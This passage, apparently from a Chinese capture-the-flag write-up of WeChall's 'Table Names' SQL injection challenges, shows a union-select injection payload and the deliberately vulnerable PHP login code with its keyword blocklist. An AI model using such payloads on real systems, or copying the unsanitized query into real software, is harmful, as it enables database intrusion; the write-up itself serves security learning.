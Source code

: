 ```
username=wyl' union select 1,2,database() -- 
```

## Table Names II

这道题同样是猜测，数据库名和表名，不过很多关键词都被过滤了。查到 mysql 的版本，根据文档找 information_schema 里面的表， 一个一个试一下就行了。

漏洞代码：

```
<?php
$secret = require('secret.php');
chdir('../../../');
define('GWF_PAGE_TITLE', 'Table Names II');
require_once('challenge/html_head.php');
require(GWF_CORE_PATH.'module/WeChall/solutionbox.php');

if (false === ($chall = WC_Challenge::getByTitle(GWF_PAGE_TITLE)))
{
        $chall = WC_Challenge::dummyChallenge(GWF_PAGE_TITLE, 6, 'challenge/nurfed/more_table_names/index.php', $secret['flag']);
}
$chall->showHeader();
$chall->onCheckSolution();

if (false !== Common::getGet('login'))
{
        $username = Common::getGetString('username', '');
        $password = Common::getGetString('password', '');

        if (preg_match('/statistics|tables|columns|table_constraints|key_column_usage|partitions|schema_privileges|schemata|database|schema\(\)/i', $username.$password))
        {
                echo GWF_HTML::error(GWF_PAGE_TITLE, $chall->lang('on_match'));
        }
        else
        {
                if (false === ($db = gdo_db_instance($secret['host'], $secret['username'], $secret['password'], $secret['database'])))
                {
                        die('Database error.');
                }

                $db->setVerbose(false);
                $db->setLogging(false);
                $db->setEMailOnError(false);

                $query = "SELECT * FROM {$secret['database']}.{$secret['table_name']} WHERE username='$username' AND password='$password'";
                if (false === ($result = ($db->queryFirst($query, false))))
                {
                        echo GWF_HTML::error(GWF_PAGE_TITLE, $chall->lang('on_login_fail'));
                }
                else
                {
                        echo GWF_HTML::message(GWF_PAGE_TITLE, $chall->lang('on_logged_in', array(GWF_HTML::display($result['username']), GWF_HTML::display($result['message']))));
                }
        }
}

?>
<div class="box box_c">
<form action="challenge.php" method="get">
```